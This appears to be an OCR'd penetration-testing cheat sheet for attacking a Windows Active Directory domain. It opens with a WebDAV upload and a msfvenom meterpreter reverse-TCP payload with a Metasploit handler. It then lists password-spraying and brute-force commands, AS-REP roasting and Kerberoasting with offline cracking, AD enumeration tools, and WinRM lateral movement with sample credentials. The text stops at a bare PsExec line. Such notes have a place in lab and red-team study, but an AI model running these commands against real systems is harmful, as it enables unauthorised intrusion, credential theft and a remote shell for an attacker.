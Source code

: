 ```
cyn:password -url 
http://corpo/dav
  -uploadfile corpo.exe -uploadloc corpo.exe

msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx LPORT=4444 -f exe > corpo.exe

use exploit/multi/handler

## Password sprawy

polenum glorp:password@10.65.1.20

ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D glorp -W | grep -m 1 -B 10 pwdHistoryLength

hydra -t 8 -L ./uplink1.txt -P /usr/share/john/password.lst uplink ssh

crackmapexec smb uplink -u ./uplink2.txt -p /usr/share/john/password.lst

spray smb uplink ./uplink1.txt /usr/share/john/password.lst 20 5

## ASREP and Kerberoasting

python3 GetNPUsers.py kinetic.corp/dennis -dc-ip 10.65.1.20 -no-pass -format john

python3 GetNPUsers.py kinetic.corp/cyn -dc-ip 10.65.1.20 -no-pass -format john

john asrep-cyn.txt --wordlist=/usr/share/wordlists/rockyou.txt

john spn.txt --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt

## Adalanche

adalanche.exe collect activedirectory --tlsmode noTLS --port 389

adalanche analyze

./adalanche collect activedirectory --domain kinetic --username glorp@kinetic --password pAsSw0rd --server 10.65.1.20 --tlsmode NoTLS --port 389

./adalanche collect activedirectory --adexplorerfile=kinetic.dat

## Grouper

Group3r.exe -s

## Winrm

winrs -r:demo -u:eve "hostname && whoami"

Enter-PSSession -ComputerName demo -Credential eve

Invoke-Command -ComputerName demo -ScriptBlock {hostname; whoami} -Credential eve

evil-winrm -i demo -u eve -p eve

crackmapexec winrm demo -u eve -p eve

crackmapexec winrm demo -u eve -p eve -x 'whoami && hostname'

## SMB

PsExec.exe 
```